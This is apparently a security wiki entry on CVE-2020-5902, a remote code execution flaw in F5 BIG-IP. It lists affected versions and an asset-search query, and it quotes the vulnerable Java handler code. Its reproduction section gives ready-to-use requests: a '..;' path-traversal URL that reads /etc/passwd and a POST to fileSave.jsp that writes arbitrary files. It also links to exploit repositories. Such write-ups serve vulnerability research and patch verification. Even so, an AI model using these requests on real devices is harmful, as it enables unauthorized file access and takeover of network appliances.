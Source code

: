 # F5 BIG-IP Remote Code Execution Vulnerability CVE-2020-5902

## Vulnerability Description

On July 3, 2020, 360CERT monitoring found that `F5` issued a risk notice for `F5 BIG-IP remote code execution`, with the vulnerability number `CVE-2020-5902`, vulnerability level: `Serious`.

Unauthorized remote attackers can cause arbitrary Java code execution by sending specially crafted request packets to vulnerability pages. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">F5 BIG-IP 15.x: 15.1.0.4</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">F5 BIG-IP 14.x: 14.1.2.6</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">F5 BIG-IP 13.x: 13.1.3.4</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">F5 BIG-IP 12.x: 12.1.5.2</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">F5 BIG-IP 11.x: 11.6.5.2</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title="BIG-IP&reg ;- Redirect"</span>

## Vulnerability reappears

When the `service` method of `tmshCmd` handles the request, the `command` parameter is not processed, and the `WorkspaceUtils.runTmshCommand(cmd, request);` method is called to execute the command, which restricts the execution of `delete, create, list, modify`.



```java
if ("POST".equalsIgnoreCase(request.getMethod())) {
            String[] cmdArray = command.split(" ");
            String operation = cmdArray[0];
            String module = cmdArray[2];
            if (!ShellCommandValidator.checkForBadShellCharacters(command) && (operation.equals("create") || operation.equals("delete") || operation.equals("list") || operation.equals("modify")) && WHITELISTED_TMSH_MODULES.contains(module)) {
               try {
                  String[] args = new String[]{command};
                  Result result = Syscall.callElevated(Syscall.TMSH, args);
                  output = result.getOutput();
                  error = result.getError();
               } catch (CallException var11) {
                  logger.error(NLSEngine.getString("ilx.workspace.error.TmshCommandFailed") + ": " + var11.getMessage());
                  error = var11.getMessage();
               }
            } else {
               error = NLSEngine.getString("ilx.workspace.error.RejectedTmshCommand");
}
```



When the `service` method of `fileRead` handles the request, the `fileName` parameter is not processed, and the `WorkspaceUtils.readFile(fileName);` method is directly called to read the file.



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313153337125.png)



When the `service` method of `fileSave` is processed, the `fileName` and `content` parameters are not processed. The `WorkspaceUtils.saveFile(request);` method is directly called to upload the file.



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313153337212.png)



[Details usage method https://github.com/jas502n/CVE-2020-5902](https://github.com/jas502n/CVE-2020-5902)

[Details usage method https://github.com/wx3514/CVE-2020-5902/blob/master/CVE-2020-5902.md](https://github.com/wx3514/CVE-2020-5902/blob/master/CVE-2020-5902.md)

`Read file`

```
/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313153337254.png)



```shell
POST /tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp

fileName=/tmp/test.txt&content=test
```

Read file `/tmp/test`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313153337223.png)